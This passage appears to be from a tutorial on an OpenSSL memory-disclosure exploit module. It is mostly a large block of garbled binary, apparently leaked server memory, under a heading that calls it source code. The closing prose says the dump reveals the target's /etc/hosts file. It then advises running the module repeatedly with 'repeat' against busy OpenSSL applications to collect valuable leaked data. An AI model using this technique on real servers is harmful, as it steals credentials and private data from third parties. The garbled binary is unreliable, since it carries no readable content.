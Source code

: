 ```
{=o�n�� ��3�E�b1p|�%�h���<�a:bhj��-�6Z���2�w��!pB�)�U@��)�U!�f{��?�Py0��\�����,�s/��ޫ���5�ơ�{*�{�N#W�"��,�VW���a�#��a9�k?b��9濞~���e�^�MQ�� ��n��w�x�Z%1�ŏmA�,�s��'��s�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��!�)�U���)�U�#�%��\ �rV���A#��_
                                                                                                                              �m&r�]�J�
;���/_��
���rD���WMZt0���*ʟ����J�bB�U

|�ƭ���6���,s�d��7�s�8$,�I|��'�7ײ
                                �X��j�%����uj}��Y�a'�Ks��V��c.���vn:
B���c��q)GL�y0T�a&aZ�*q/#��������)�:յ�-����ހYi�R3�rb)��
�����5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴ��	�:v���)6��jInld��P�-1��ɾ�
                                                                                                                         ��DyE�����l�"��e�#��Ǽ���-<KN�{�<�T�����&���E�:Y��D����ʎ�������c#�I��h5<�-�y�ұ�ST$m��U�8||�j�S.ϖ���W�~d��j��訦Dx�&�օ��U���Gj��b'�0��h�р.:�W����a���p�X'�X��N7es����C'�ɒ$(�bM��܍�Rݜ13
1�ŏmA�,�s����)!��9��v-��B���Ь�%�o���k�kW�U�x���\`Sl�]@�$W�F�k�a���j�x���0��p�'�N���1n�}]�[d*9H�����@�YVE����'��s�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��q��)�U!�Ɠ)�U���)�``��)�U�@ɓ)�U!��)�U���B/w��!@��)�U!@��)�U���B/w��1��5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴq���)�U!��)�U��8NE<���GGΡ��)L��ңf�(+c��������'B<uΓU�PiS6�K��tgF�Z
              ������
�`dXQ4��
�m�Q�J�G�R�(��w�!?e��1��J�On��}�v@é���eW8�N���p3�)�U A���)�U  ���@'�/!�]7ڊ!�\7ڊ<�)�U 0���)�U1���)�U1��)�UAǕ)�U 1�\7ڊ�\7ڊ0 �\7ڊ!�)�U!�9�)!��)�U!@<�)�U !`;�)�U!0ӓ)1Q%c��ʹ�����������������!kaliUn�R�0h�"!ĝ���jfx��&���~�!�\7ڊ!ĝ���jfx��&���~�1����������������1����������������1
V��WS��\���J�%�!݈��҅]�%�q�A`��'�Uѓ)�U�ջ'�UA��'�U��)�U�ջ'�UAP��)�U�ד)�U0��)�Ua1����������������� ĕ)�U�`p�0�"ϙ�L���f�p����^�=�6��=�q�nw�9��0D}�ci��t���G=�x����сFAp�0�:%6�Gh�F(��U�TDw'��le�G�`}��9-����Z�Qe"�C)kUݠ�e6t7���6�u)��1�����
mL�n�*�]`����D�>a���K�@V|����q�'�UHn�'�U�v�'�U0v�'�U�X�'�U�X�'�U�b�'�U�b�'�U�b�'�Up�'�U�W�'�U�a�'�q�'�U�m�'�Uxt�'�U t�'�UxS�'�UpR�'�UPo�'�U�k�'�UXO�'�U`q�'�U�m�'�U�u�'�U(u�'�U�V�'�U�V�'�U`f�'�f�'�U]�'�U�\�'�U�o�'�U8l�'�U�U�'�Ue�'�U�[�'�U�p�'�U@m�'�U�n�'�U�k�'�U�M�'�UHM�'�U S�'�UR�'�UO�'�U�R�'�U�Q�'�U�N�'�U�M�'�U�L�'�UA���)�UA�@a7ڊ@a7ڊ@Ǖ)�U@Ǖ)�U��W��(E ��
[&(yu0�.���I�V���t�1��fE�I̮N;��p˫�]�2�&^}        �� #����Ƃ�T�|i2�&~<�Q;T�B�TAﴕ:�/��H�^W��x�����]͓!���]�O��bC��Z�A�gw��it��Zy
```

The contents of `/etc/hosts` is visible in this file, as it was edited to prevent the `gethostbyname failure` issue previously noted.

### Utilizing repeat

Because arbitrary memory is dumped, a high volume application that uses openSSL will cycle potentially valuable data
fairly often. The `repeat` command can be used to execute the module multiple times.
